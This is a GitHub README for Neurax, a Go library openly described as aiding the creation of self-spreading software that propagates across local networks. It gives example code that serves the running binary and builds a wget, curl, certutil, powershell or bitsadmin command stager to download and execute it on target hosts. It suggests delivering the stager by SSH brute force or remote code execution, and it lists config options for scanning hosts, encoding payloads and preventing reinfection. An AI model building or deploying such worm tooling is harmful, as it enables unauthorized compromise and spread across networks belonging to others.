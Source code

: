 <h1 align="center"> Neurax </h1> <br>

<p align="center">
  <a>
    <img alt="Neurax" title="Neurax" src="neurax.png">
  </a>
</p>

<p align="center"> A library that aids in creation of self-spreading software</p>

## Usage
With help of Neurax, Golang binaries can spread on local network without using any external servers.

Diverse config options and command stagers allow rapid propagation across various wireless environments.
### Example code

```
package main
import "github.com/redcode-labs/Neurax"

func main(){

  //Specify serving port and stager to use
  neurax_config.port = 5555
  neurax_config.stager = "wget"

  //Start a server that exposes the current binary in the background
  go neurax_server()
  
  //Create a command stager that should be launched on target machine
  //It will download, decode and execute the binary
  cmd_stager := neurax_stager()

  /* Now you have to somehow execute the command generated above.
     You can use SSH bruteforce, some RCE or whatever else you want ;> */

}
```

### List of config entries

```
neurax_config.stager           - Name of the command stager to use (default: random, platform-compatible)
                                 Available stagers: certutil, powershell, bitsadmin, wget, curl
neurax_config.port             - Port to serve on (default: random from 2222 to 9999)
neurax_config.platform         - Platform to target, currently only Windows and Linux (default: detected automatically)
neurax_config.path             - The path under which binary is saved on the host (default: random)
neurax_config.file_name        - Name under which downloaded binary should be served and then saved (default: random)
neurax_config.base64           - Encode the transferred binary in base64 (default: false)
neurax_config.prevent_reinfect - Indicates whether port 7123 should be opened to prevent multiple infections of the same host (default: true)
neurax_config.required_port    - Neurax_scan() treats host as active only when it has a specific port opened (default: none)
neurax_config.scan_passive     - Neurax_scan() detects hosts using passive ARP monitoring (default: false)
neurax_config.cidr             - Neurax_scan() scans this CIDR (default: local IP + "\24")
neurax_config.threads          - Number of threads to use for neurax_scan() (default: 10)
neurax_config.full_range       - Neurax_scan() scans all ports of target host to determine if it is active (default: from 19 to 300)
```

### Finding new targets
Function `neurax_scan(c chan string)` enables detection of active hosts on local network.
It accepts a channel of type string as it's only argument and should be launched as a goroutine.
Any scanned host will be sent through that channel as soon as it was classified as active.
Host is treated as active when it has at least 1 open port + fullfils conditions specified within `neurax_config`.

## Artwork credits

====> [Seto01](https://www.deviantart.com/seto01/art/New-disease-parasite-438032692) <====

## License
This software is under [MIT license](https://en.wikipedia.org/wiki/MIT_License)